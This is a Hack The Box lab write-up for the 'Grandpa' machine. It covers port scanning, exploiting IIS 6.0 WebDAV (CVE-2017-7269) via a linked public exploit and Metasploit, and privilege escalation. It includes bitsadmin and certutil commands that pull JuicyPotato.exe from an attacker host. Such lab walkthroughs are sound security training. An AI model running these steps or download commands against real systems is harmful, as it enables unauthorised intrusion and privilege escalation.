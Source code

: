```yaml
---
tags:
  - iis
---
```

***Overview**: Grandpa is an Easy rated HTB machine that exploits a vulnerable IIS version to gain compromised access.*
# HTB: Grandpa

## Scanning and Reconnaissance
- so we start by scanning for open ports and services and we identify that an IIS server is running on port 80

```shell
┌──(kali㉿kali)-[~/HTB/Grandpa]
└─$ sudo masscan -p1-65535 10.10.10.14 --rate=1000 -e tun0 > ports
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2023-11-16 23:18:25 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
                                                                                                                                                                       
┌──(kali㉿kali)-[~/HTB/Grandpa]
└─$ cat ports
Discovered open port 80/tcp on 10.10.10.14                                     
                                                                                                                                                                       
┌──(kali㉿kali)-[~/HTB/Grandpa]
└─$ nmap -sV -sC -p80 10.10.10.14 -v -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 18:22 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 18:22
Completed Parallel DNS resolution of 1 host. at 18:22, 0.08s elapsed
Initiating Connect Scan at 18:22
Scanning 10.10.10.14 [1 port]
Discovered open port 80/tcp on 10.10.10.14
Completed Connect Scan at 18:22, 0.20s elapsed (1 total ports)
Initiating Service scan at 18:22
Scanning 1 service on 10.10.10.14
Completed Service scan at 18:22, 6.41s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.14.
Initiating NSE at 18:22
Completed NSE at 18:22, 9.04s elapsed
Initiating NSE at 18:22
Completed NSE at 18:22, 2.83s elapsed
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Nmap scan report for 10.10.10.14
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Thu, 16 Nov 2023 23:22:17 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### Port 80
- Navigating to the web page, we are presented with the below, we can inspect it too but there's nothing

![](assets/Grandpa_assets/Pasted%20image%2020231117001745.png)

- In wappalyzer, we can confirm that its a windows server and it is IIS 6.0 as we saw

![](assets/Grandpa_assets/Pasted%20image%2020231117002130.png)

## Explotation and Foothold
- so searching for exploits for IIS 6.0, we come across one at [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)
- so utilizing it we get compromised access

![](assets/Grandpa_assets/Pasted%20image%2020231117010609.png)

- we can check for who we are and also our privileges (we can see SeImpersonate meaning a possibility of a Potato attack)

![](assets/Grandpa_assets/Pasted%20image%2020231117010510.png)

- we can also utilize metasploit for this and also gain compromised access, but we cannot run commands, meaning we have to migrate our process

![](assets/Grandpa_assets/Pasted%20image%2020231117085206.png)

- so we run `ps` to see the processes we have

![](assets/Grandpa_assets/Pasted%20image%2020231117085224.png)

- we can then migrate to the process and we see that we can run the getuid command now

![](assets/Grandpa_assets/Pasted%20image%2020231117085243.png)

- we can view the user flag

![](assets/Grandpa_assets/Pasted%20image%2020231117085818.png)
## Privilege Escalation
- we can use the exploit suggester in metasploit to check for possible privilege escalation vectors. we can set our session and then run the exploit suggester

![](assets/Grandpa_assets/Pasted%20image%2020231117085718.png)

- so we can select any one of the exploit to escalate privileges, we select the first one one and select our session. so now we have access ad Administrator and can view the root file

![](assets/Grandpa_assets/Pasted%20image%2020231117085902.png)


```
bitsadmin /transfer transfName /priority high http://10.10.14.6/JuicyPotato.exe JuicyPotato.exe

certutil.exe -urlcache -split -f http://10.10.14.6/JuicyPotato.exe
```

use nikto
was using this guide to set up ftp server for [https://www.linode.com/docs/guides/vsftpd-on-ubuntu-2004-installation-and-configuration/](https://www.linode.com/docs/guides/vsftpd-on-ubuntu-2004-installation-and-configuration/) for transfer but it didn't work

using davtest

![](assets/Grandpa_assets/Pasted%20image%2020231117091217.png)